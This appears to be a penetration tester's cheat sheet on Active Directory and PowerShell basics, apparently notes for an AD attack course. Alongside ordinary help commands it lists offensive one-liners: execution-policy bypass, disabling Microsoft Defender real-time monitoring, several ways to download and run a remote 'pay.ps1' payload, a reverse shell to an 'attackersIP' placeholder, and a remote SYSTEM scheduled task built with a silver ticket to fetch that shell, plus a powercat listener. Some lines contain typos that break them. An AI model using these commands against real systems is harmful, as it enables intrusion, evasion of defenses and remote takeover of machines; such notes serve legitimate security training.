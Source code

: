 # AD - Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

Get-Help \* - Lists everything abtout the help topic

Get-Help process (lists everything which contains the word process)

Update-Help - Update the healp system (v3+)

Get-help cmdlet\_name -Full - List full help about a topic

Get-Help cmdlet\_name -Examples

Get-command -CommandType cmdlet - List all cmdlets



**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"\
****&#x20;

### Execution Policy

It is NOT a security boundary

Powershell -exectionpolicy bypass\
powershell -ep bypass\
Powershell -c \<cmd>\
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"

### Language Mode

**Display current language mode**\
$executioncontext.sessionstate.languagemode

Constrained Language mode is the restriction of types which are not safe/disallowed in constrained language mode. E.g. .Net Classes,\
Only Built-In Commandlets can be used and types/classes etc. are restricted\
Can be configured via AppLoker or Windows Defender Application Mode in Enforcement mode.

Constrained language mode is only for Powershellv5.1, v7 - if attacker can run Powershellv2 no language mode enforcement is possible.

**Disable Microsoft Defender**\
****Set-MpPreference -DisableRealtimeMonitoring $true

****

### Execute .PS1 File / PowerView

. .\PowerView.ps1

iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module .\ActiveDirectory\ActiveDirectory.psd1

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

\
iex (new-Object Net.WebClient).DownloadString('[https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory](https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1'\);Import-ActiveDirectory)

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.\
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose\
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1\
Get-Command -Module ActiveDirectory

### Import Modules / Execute

**Import a module/file**\
Import-Module \<modulepath>

**List all commands of a module**\
Get-Command -Module \<modulename>

**Display Loaded functions**\
ls function:

### Download and execute PowerShell Scripts

iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)

#### &#x20;**Use a COM Object**

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

#### **PSv3 or newer**

Iex (iwr '[http://websever/ps.ps1](http://websever/ps.ps1)') -iwr is alias for invoke-web request

&#x20;$h=New-Object -ComObject\
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText

&#x20;$wr = \[System.NET.WebRequest]::Create("http://werbser.ps.ps1")\
$r = $wr.GetResponse()\
IEX (\[System.IO.StreamReader]\($r.GetResponseStream())).ReadToEnd()

**Invoke\_PowerShellTCP.ps1**

Add line at the end of the script:\
Invoke-PowershellTcp -Reverse -IPAddress attackersIP -Port port



## Other

**Display/delete Kerberos Tickets**\
****klist\
klist purge

**List tasks**\
schtasks /S hostname.dom.local

**Schedudle an execute a task with silver ticket of "HOST" Service** \
schtasks /create /S hostname.dom.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (new-object net.webclient).DownloadString(''http://ip/Invoke\_powerShellTcp.ps1''')'"&#x20;

schtasks /Run /S hostname.dom.local /TN "STCheck"

**Start listener**\
****. .\powercat.ps1\
powercat -l -v -p 443 -t 1000\
&#x20; When connected press a few times enter

**HFS Webserver tool**\
****Drag & drop files in window to host it

&#x20;







